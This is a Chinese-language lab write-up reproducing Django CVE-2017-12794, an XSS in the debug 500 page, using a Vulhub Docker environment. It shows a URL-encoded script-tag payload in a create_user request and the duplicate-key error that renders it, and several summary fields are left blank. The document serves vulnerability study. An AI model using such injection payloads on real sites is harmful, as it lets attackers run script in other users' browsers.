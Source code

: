 # Django_debug page_XSS漏洞(CVE-2017-12794)漏洞复现

| 说明     | 内容                      |
| -------- | ------------------------- |
| 漏洞编号 | CVE-2017-12794            |
| 漏洞名称 | Django_debug page_XSS漏洞 |
| 漏洞评级 |                           |
| 影响范围 | 1.11.5版本                |
| 漏洞描述 |                           |
| 修复方案 |                           |



### 1.1、漏洞描述

1.11.5版本，修复了500页面中存在的一个XSS漏洞

### 1.2、漏洞等级

### 1.3、影响版本

Django 1.11.5版本

### 1.4、漏洞复现

#### 1、基础环境

Path：Vulhub/django/CVE-2017-12794

---

启动测试环境：

```bash
sudo docker-compose up -d
```

访问`http://your-ip:8000/`即可看到

![image-20230911190030691](./imgs/image-20230911190030691.png)

#### 2、漏洞分析

[vulhub](https://vulhub.org/#/environments/django/CVE-2017-12794/)



#### 3、漏洞验证

```
http://192.168.8.8:8000/create_user/?username=%3Cscript%3Ealert(1)%3C/script%3E
```

用户已经被 创建

![image-20230911190417164](./imgs/image-20230911190417164.png)

再次刷新页面触发XSS

![image-20230911190451181](./imgs/image-20230911190451181.png)

抛出异常

![image-20230911190504903](./imgs/image-20230911190504903.png)

```python
duplicate key value violates unique constraint "xss_user_username_key"
DETAIL:  Key (username)=(<script>alert(1)</script>) already exists.
```



